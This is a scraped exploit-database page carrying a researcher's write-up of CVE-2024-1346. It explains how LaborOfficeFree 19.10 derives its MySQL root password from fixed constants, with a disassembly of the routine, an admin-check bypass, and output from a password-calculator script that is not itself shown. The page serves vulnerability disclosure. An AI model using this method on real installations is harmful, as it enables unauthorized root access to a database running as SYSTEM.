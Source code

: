 ```yaml
---
title: Exploit for CVE-2024-1346 exploit
url: https://sploitus.com/exploit?id=5CB2E69C-20F5-5E83-8EA4-40C15525892E&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2024-02-26
fetch_date: 2025-10-04T12:04:53.509896
---
```


# Exploit for CVE-2024-1346 exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Weak Password Requirements in Laborofficefree CVE-2024-1346

2024-02-25 | CVSS 6.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=5CB2E69C-20F5-5E83-8EA4-40C15525892E
# CVE-2024-1346
Weak MySQL database root password in LaborOfficeFree affects version 19.10. This vulnerability allows an attacker to calculate the root password of the MySQL database used by LaborOfficeFree using two constants.

### Exploit Title: LaborOfficeFree 19.10 MySQL Root Password Calculator - CVE-2024-1346
### Google Dork: N/A
### Date: 09/02/2023
### Exploit Author: Peter Gabaldon - https://pgj11.com/
### Vendor Homepage: https://www.laborofficefree.com/
### Software Link: https://www.laborofficefree.com/#plans
### Version: 19.10
### Tested on: Windows 10
### CVE : CVE-2024-1346
### Description: LaborOfficeFree installs a MySQL instance that runs as SYSTEM and calculates the MySQL root password based on two constants. Each time the program needs to connect to MySQL as root, it employs the reverse algorithm to calculate the root password. This issue has been tested on version 19.10 exclusively, but allegedly, versions prior to 19.10 are also vulnerable.

```
	After installing LaborOfficeFree in testing lab and revesing the backup process, it is possible to determine that it creates a "mysqldump.exe" process with the root user and the password being derived from the string "hola" concated with "00331-20471-98465-AA370" (in this case). This appears to be the license, but it is different from the license shown in the GUI dashboard. This license has to be extracted from memory. From example, attaching a debugger and breaking in the mysqldump process (for that, admin rights are NOT needed).

    Also, the app checks if you are an admin to perform the backup and fails if the program is not running as adminsitrator. But, this check is not effective, as it is actually calling mysqldump with a derived password. Thus, administrator right are not needed.

    Here is the disassembly piece of the procedure in LaborOfficeFree.exe responsible of calculating the root password.

    00506548 | 53                       | push ebx                                | Aqui se hacen el XOR y demas que calcula la pwd :)
    00506549 | 56                       | push esi                                |
    0050654A | A3 7CFD8800              | mov dword ptr ds:[88FD7C],eax           | eax:"hola00331-20471-98465-AA370"
    0050654F | 0FB7C2                   | movzx eax,dx                            | eax:"hola00331-20471-98465-AA370"
    00506552 | 85C0                     | test eax,eax                            | eax:"hola00331-20471-98465-AA370"
    00506554 | 7E 2E                    | jle laborofficefree.506584              |
    00506556 | BA 01000000              | mov edx,1                               |
    0050655B | 8B1D 7CFD8800            | mov ebx,dword ptr ds:[88FD7C]           |
    00506561 | 0FB65C13 FF              | movzx ebx,byte ptr ds:[ebx+edx-1]       |
    00506566 | 8B31                     | mov esi,dword ptr ds:[ecx]              |
    00506568 | 81E6 FF000000            | and esi,FF                              |
    0050656E | 33DE                     | xor ebx,esi                             |
    00506570 | 8B1C9D A40B8800          | mov ebx,dword ptr ds:[ebx*4+880BA4]     |
    00506577 | 8B31                     | mov esi,dword ptr ds:[ecx]              |
    00506579 | C1EE 08                  | shr esi,8                               |
    0050657C | 33DE                     | xor ebx,esi                             |
    0050657E | 8919                     | mov dword ptr ds:[ecx],ebx              |
    00506580 | 42                       | inc edx                                 |
    00506581 | 48                       | dec eax                                 | eax:"hola00331-20471-98465-AA370"
    00506582 | 75 D7                    | jne laborofficefree.50655B              |
    00506584 | 5E                       | pop esi                                 |
    00506585 | 5B                       | pop ebx                                 |
    00506586 | C3                       | ret                                     |

    The result number from this procedure is then negated (bitwise NOT) and casted as a signed integer. Note: the address 0x880BA4 stores a constant array of 256 DWORDs entries.

    005065C8 | F755 F8                  | not dword ptr ss:[ebp-8]                |

	Running this script produces the root password of the LaborOfficeFree MySQL.

    C:\Users\***\Desktop>python myLaborRootPwdCalculator.py
    1591779762

    C:\Users\***\Desktop>
```
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)